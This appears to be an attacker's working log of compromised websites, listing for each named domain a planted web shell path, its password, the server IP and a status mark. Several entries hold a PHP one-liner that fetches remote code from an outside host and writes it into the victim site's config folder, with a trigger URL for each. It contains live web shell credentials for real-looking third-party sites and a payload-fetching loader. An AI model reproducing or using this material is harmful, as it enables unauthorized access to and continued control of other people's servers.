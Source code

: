 http://bj.ehot.vip//skin/images/m22.php |mmk123 |  103.56.113.2
代码更新：0608 失败  500
http://bj.ehot.vip/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://bj.ehot.vip/config/httpd.php?d=up

http://www.gslyzm.cn/static/upload/image/20230412/13.php |mmk123 |rsa | 211.149.226.215  连接失败

https://www.cangpaige.com/static/upload/image/20220406/m22.php |mmk123 |  47.97.90.35
代码更新：0608 ✅
https://www.cangpaige.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.cangpaige.com/config/httpd.php?d=up

http://haoshen.860318.cn/static/upload/image/20240131/m22.php |mmk123 |  182.92.203.39
代码更新：0608   该网页无法正常运作
http://haoshen.860318.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://haoshen.860318.cn/config/httpd.php?d=up

https://iot.xinbenkj.com/dd.php |dd |big | 106.55.241.55 连接失败

http://aixuyang.com/static/upload/image/20240301/m22.php |mmk123 |  156.247.13.175
代码更新：0608 ✅
http://aixuyang.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://aixuyang.com/config/httpd.php?d=up

http://e.himin.com/static/upload/image/20220729/m22.php |mmk123 |  120.27.14.20


https://www.huaeda.com/template/default/images/m22.php |mmk123 |  121.42.118.20
代码更新：0608 ✅
https://www.huaeda.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.huaeda.com/config/httpd.php?d=up

https://www.gearbox-world.com/static/upload/image/20231024/m22.php |mmk123 |  150.109.70.87


http://www.sdpadq.com/static/upload/other/20231102/m22.php |mmk123 |  139.129.242.175 
http://xl.dzpc.net/template/default/wap/comm/m22.php |mmk123 |  47.96.84.204

http://www.tjclchem.com/static/upload/image/20221118/m22.php |mmk123 |  211.149.225.63
代码更新：0608  失败 500
http://www.tjclchem.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.tjclchem.com/config/httpd.php?d=up

